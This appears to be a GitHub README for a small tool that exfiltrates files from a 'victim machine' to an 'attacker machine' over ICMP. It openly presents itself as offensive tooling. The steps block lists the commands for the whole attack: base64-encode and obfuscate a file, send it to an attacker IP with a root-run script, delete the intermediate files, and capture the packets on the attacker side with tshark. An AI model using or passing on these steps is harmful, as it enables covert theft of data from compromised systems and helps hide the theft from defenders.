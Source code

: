 # ICMP Encoded Message

Small project to send files encoded and obfuscated over ICMP as a secondary means of communication.

It's required to have root access in the victim machine.

The obfuscation method can be changed. Just edit *ofuscador.py* and *deOfuscador.py* to something that fits your needs.

Steps:
```
[Victim Machine]
    cat <file to send> | base64 > token
    python ofuscador.py token tmp
    rm token
    (sudo) python icmp.py <ip to send the file> tmp # You need to run this as root
    rm tmp

[Attacker Machine]
    (sudo) tshark -i lo -f 'icmp[0] == 8' -e data -Tjson > tout.json # You need to run this as root
    ./getFileBack.sh <final File>
```

